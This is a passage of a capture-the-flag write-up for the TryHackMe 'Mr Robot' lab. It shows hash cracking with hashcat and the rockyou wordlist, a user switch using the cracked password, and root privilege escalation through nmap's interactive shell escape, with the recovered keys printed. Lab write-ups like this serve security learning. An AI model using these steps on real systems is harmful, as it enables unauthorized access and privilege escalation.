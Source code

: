 ```bash
kali@kali:~/Desktop$ hashcat -m 0 --force hashmrrobot /usr/share/wordlists/rockyou.txt
```

```bash
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```

### #3 What is key 3?

<div className="Image__Medium">
  <img src="https://imgur.com/37RDyTP.png" alt="blog_image" />
</div>

```bash
su -l robot
Password: abcdefghijklmnopqrstuvwxyz
```

```bash
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

### Final step getting root on the machine

On the TryHackMe website the hint was "nmap"

So i found this website [https://pentestlab.blog/category/privilege-escalation/](https://pentestlab.blog/category/privilege-escalation/) and it worked ! :D

```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
key-2-of-3.txt  password.raw-md5
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```


